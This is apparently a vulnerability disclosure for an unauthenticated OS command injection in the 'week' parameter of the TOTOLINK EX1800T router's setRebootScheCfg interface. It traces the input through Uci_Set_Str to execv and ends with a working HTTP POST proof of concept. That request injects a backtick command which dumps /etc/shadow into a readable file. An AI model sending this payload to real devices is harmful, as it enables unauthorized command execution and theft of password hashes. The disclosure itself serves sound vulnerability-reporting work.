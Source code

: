 # OS Command Injection 05 setRebootScheCfg->week

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘week’ parameter of the setRebootScheCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the week field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setRebootScheCfg`​ Interface, `week`​variable recevies the key parameter:

![image](assets/image-20250305142819-5ndknml.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `week`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `week`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 138
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"mode":"","week":"123`cat /etc/shadow>>../week.txt`","hour":"","minute":"","recHour":"","token":"","topicurl":"setting/setRebootScheCfg"}
```

![image](assets/image-20250305142749-lmvbwr1.png)

![image](assets/image-20250305142757-1nlmops.png)
